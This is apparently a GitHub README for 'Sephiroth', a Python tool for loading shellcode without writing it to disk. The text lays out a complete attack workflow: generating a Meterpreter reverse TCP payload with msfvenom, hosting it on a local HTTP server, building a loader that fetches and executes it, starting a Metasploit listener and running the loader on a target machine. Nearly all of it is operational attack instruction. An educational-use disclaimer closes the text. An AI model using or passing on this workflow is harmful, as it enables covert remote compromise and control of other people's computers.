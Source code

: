 ![Alt text](<2024-02-20 07_45_57-C__Windows_System32_cmd.exe.png>)

Greetings
-------------------

sephiroth  is a Fileless Shellcode Loader with Python :


Usage: python Sephiros.py -url 'urlforshellcode'

u can generate a ps1 script with -ps instead of building into exe

python Sephiros.py -url 'urlforshellcode' -ps

you can also just embed shellcode into the PE directly using -sh 'pathofshellcode'


python Sephiros.py -sh 'pathto_shellcode'

setup
---------

pip install -r requirements.txt

python Sephiroth.py

fileless execution example:
-------------------
generate shellcode with:

msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=0.0.0.0 LPORT=5555 -f raw  -o shellcode

python3 -m http.server 80


then:

python Sephiroth.py -url http://yourip/shellcode

start metasploit listener

execute PE on target machine

todo
--------
asymetric encryption to the shellcode

DISCLAIMER :
----------------------
ME The author takes NO responsibility and/or liability for how you choose to use any of the tools/source code/any files provided. ME The author and anyone affiliated with will not be liable for any losses and/or damages in connection with use of Sephiros. By using Sephiros or any files included, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again Sephiros is for EDUCATION and/or RESEARCH purposes ONLY